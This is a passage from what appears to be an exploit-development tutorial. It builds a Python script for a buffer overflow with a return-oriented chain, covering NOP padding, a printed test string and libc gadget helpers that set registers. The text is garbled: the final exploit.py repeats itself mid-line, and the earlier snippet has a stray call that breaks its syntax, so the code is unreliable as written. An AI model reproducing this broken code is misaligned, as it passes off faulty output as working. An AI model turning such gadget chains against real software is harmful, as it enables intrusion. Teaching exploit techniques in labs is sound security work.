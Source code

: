 We can now include some logic in our script to add padding to the beginning of our exploit:

```python
PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4
.
.
.

def main():
  .
  .
  .
  # Add padding to chain
  exploit = PRINT_STRING +\
            '\x90' * NOP_SIZE
            generate_rop()

  print(exploit)

```

Now we can throw it all together and generate our full exploit!

<strong>exploit.py</strong>
```python 
#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = Non#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)

def set_edx(value):
  # 0x00001aa6 : pop edx ; ret   
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret     
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret  
  return libc_addr(0x0002406e) + struct.pack('<I', value)

```
